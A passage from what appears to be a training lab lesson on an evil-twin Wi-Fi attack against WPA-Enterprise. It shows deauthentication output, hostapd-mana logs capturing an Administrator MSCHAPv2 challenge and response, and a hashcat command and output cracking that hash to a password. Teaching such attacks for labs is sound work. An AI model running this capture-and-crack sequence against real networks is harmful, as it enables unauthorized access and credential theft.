 09:57:49  Waiting for beacon frame (BSSID: 9C:9A:03:39:BD:7A) on channel 1
09:57:49  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]
09:57:50  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]
09:57:50  Sending 64 directed DeAuth (code 7). STMAC: [16:C5:68:79:A8:12] [ 0| 0 ACKs]
</code></pre>
<hr/>
<h3>5. Capture the Credentials</h3>
<p>Once a client successfully connects to our fake access point and EAP negotiation is successful, we should observe output similar to the following in the hostapd-mana/hostapd-wpe tab:</p>
<pre><code class="language-shell-session">wlan1: AP-ENABLED 
MANA - Directed probe request for SSID 'HTB-Wireless' from 16:C5:68:79:A8:12
MANA - Directed probe request for SSID 'HTB-Wireless' from 16:C5:68:79:A8:12
wlan1: STA 16:C5:68:79:A8:12 IEEE 802.11: authenticated
wlan1: STA 12:c2:9c:78:a6:0d IEEE 802.1X: Identity received from STA: 'HTB\Administrator'

mschapv2: Wed Aug 21 12:52:31 2024
	 username:			HTB\Administrator
	 challenge:			45:14:53:22:49:08:8c:58
	 response:			10:51:1c:55:42:d6:04:1d:b2:2a:d6:29:73:ad:76:0c:6f:f5:07:d3:3a:dd:6d:b3
	 jtr NETNTLM:			Administrator:$NETNTLM$as65a4sd564d1a2s$54as56d65asasd55asd564asd564asd555asd564as6d55s5
	 hashcat NETNTLM:		Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s
</code></pre>
<p>To begin our attempt at cracking the hash (in order to gain access to our target access point), we need to choose a suitable wordlist, which may include our end user's password. Once we have located the desired wordlist, we can employ the following command to run a password cracking attack against our captured hash. We specify <code>-m 5500</code> for the correct hash mode, <code>-a 0</code> for the attack mode, our captured <code>NetNTLM</code> hash in Hashcat format, and finally, the dictionary file we will attempt cracking with.</p>
<pre><code class="language-shell-session">[!bash!]$ hashcat -m 5500 -a 0 Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s wordlist.dict

&lt;snip&gt;

Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s:Wowwhatasecurepassword123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
Hash.Target......: Administrator::::54as56d65asasd55asd564asd564asd55...4d1a2s
Time.Started.....: Day Mon 12 34:56:78 xxxx (0 secs)
Time.Estimated...: Day Mon 12 34:56:78 xxxx (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (wordlist.dict)
Guess.Queue......: 1/10000 (100.00%)
Speed.#1.........:     1733 H/s (0.02ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1/10000 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Wowwhatasecurepassword123 -&gt; Wowwhatasecurepassword123
Hardware.Mon.#1..: Temp: 54c Fan:  0% Util: 29% Core:1882MHz Mem:7300MHz Bus:16
</code></pre>
<div class="alert alert-primary fade show" role="alert">
<i class="mdi mdi-information-outline mr-2"></i> If <b>Hashcat</b> does not work within the provided attacker VM, it is recommended to use <b>Pwnbox</b> or your <b>local VM</b> to run Hashcat.
</div>
<p>At this stage, we will have obtained the correct password to access our target network or carry out other malicious actions.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>